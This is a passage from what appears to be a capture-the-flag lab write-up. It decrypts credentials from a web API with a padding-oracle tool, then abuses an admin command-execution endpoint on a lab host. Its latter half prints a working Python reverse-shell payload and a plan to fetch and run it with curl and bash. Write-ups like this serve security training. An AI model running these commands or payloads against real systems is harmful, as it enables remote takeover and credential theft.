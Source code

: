 This must be the padding error mentioned. We can use this for a [padding oracle attack](https://en.wikipedia.org/wiki/Padding_oracle_attack) to decrypt the encrypted payload.

We can perform the attack using [this tool](https://github.com/glebarez/padre) like this:

```console
$ ./padre -u 'http://10.10.99.229:8080/api/debug/$' -e lhex -p 64 '39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4'
[i] padre is on duty
[i] using concurrency (http connections): 64
[+] successfully detected padding oracle
[+] detected block length: 16
[!] mode: decrypt
[1/1] stefan1197:[REDACTED]\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\... [64/64] | reqs: 7353 (113/sec)
      [!] Output was too wide to fit to you terminal. Redirect STDOUT somewhere to get full output
```

With the payload decrypted, we get a set of credentials.

### Command Execution on Admin Panel

Using the credentials to login at `http://10.10.99.229:8080/login.html`, we gain access to `http://10.10.99.229:8080/exec.html`, where we find the first flag.

![Web 8080 Exec](web_8080_exec.webp){: width="1200" height="600" }

It seems the page also has a form for running commands.

Trying it with a simple command, we see that our command is passed to the `/api/admin/exec` endpoint with the `cmd` parameter.

![Web 8080 API Admin Exec](web_8080_api_admin_exec.webp){: width="1000" height="200" }

Unfortunately, we don't get any output for our command. But we can use `curl` to confirm that we are able to execute commands with the `curl 10.11.72.22` command. (`http://10.10.99.229:8080/api/admin/exec?cmd=curl+10.11.72.22`)

```console
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.99.229 - - [13/Jul/2024 01:22:09] "GET / HTTP/1.1" 200 -
```

We can use this to get a reverse shell by first making it download our reverse shell payload using `curl` and write it to the `/tmp` directory, then running it with `bash`.

Setting up our web server to serve our reverse shell payload.

```console
$ cat shell.sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.72.22",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'                                     

$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
